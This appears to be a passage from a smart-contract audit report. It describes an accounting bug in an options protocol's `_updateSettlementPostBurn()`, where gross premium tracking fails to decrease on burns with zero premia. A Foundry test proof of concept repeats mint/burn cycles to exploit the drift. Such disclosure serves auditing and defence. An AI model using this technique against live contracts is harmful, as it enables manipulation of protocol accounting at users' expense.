 ```solidity
            s_settledTokens[chunkKey] = settledTokens;

            unchecked {
                ++leg;
            }
```

The issue lies within `_updateSettlementPostBurn()`, where it adds a condition that `if (LeftRightSigned.unwrap(legPremia) != 0)` must be met for `s_grossPremiumLast[chunkKey]` to decrease.

This results in not recalculating `s_grossPremiumLast[chunkKey]` even when `totalLiquidity` changes.

For example, in the same block, if a user executes `mintOptions()`, `s_grossPremiumLast[chunkKey]` increases by 50. Immediately after, executing `burnOptions()` doesn't decrease `s_grossPremiumLast[chunkKey]` by 50 because `legPremia == 0`.

### Proof of Concept

The following code demonstrates this scenario, where `s_grossPremiumLast[chunkKey]` keeps increasing, so `last gross accumulated` keeps decreasing.

1.  Add to `Misc.t.sol`

```solidity
    function test_burn_not_reduce_last() public {
        swapperc = new SwapperC();
        vm.startPrank(Swapper);
        token0.mint(Swapper, type(uint128).max);
        token1.mint(Swapper, type(uint128).max);
        token0.approve(address(swapperc), type(uint128).max);
        token1.approve(address(swapperc), type(uint128).max);

        // mint OTM position
        $posIdList.push(
            TokenId.wrap(0).addPoolId(PanopticMath.getPoolId(address(uniPool))).addLeg(
                0,
                1,
                1,
                0,
                0,
                0,
                15,
                1
            )
        );
        //@info Bob same gross
        vm.startPrank(Bob);
        pp.mintOptions($posIdList, 1_000_000, 0, 0, 0);
        vm.startPrank(Swapper);
        swapperc.swapTo(uniPool, Math.getSqrtRatioAtTick(10) + 1);
        // 1998600539
        accruePoolFeesInRange(address(uniPool), (uniPool.liquidity() * 2) / 3, 1, 1);
        swapperc.swapTo(uniPool, 2 ** 96); 
        //@info end of Bob same gross

        //@info start alice , it should without change gross
        console.log("*****start alice mint/burn should not reduce last accumulated");
        for(uint256 i=0;i<10;i++){
            vm.startPrank(Alice);
            pp.mintOptions($posIdList, 250_000, type(uint64).max, 0, 0);

            vm.startPrank(Alice);
            pp.burnOptions($posIdList[0], new TokenId[](0), 0, 0);
        } 
    }    
```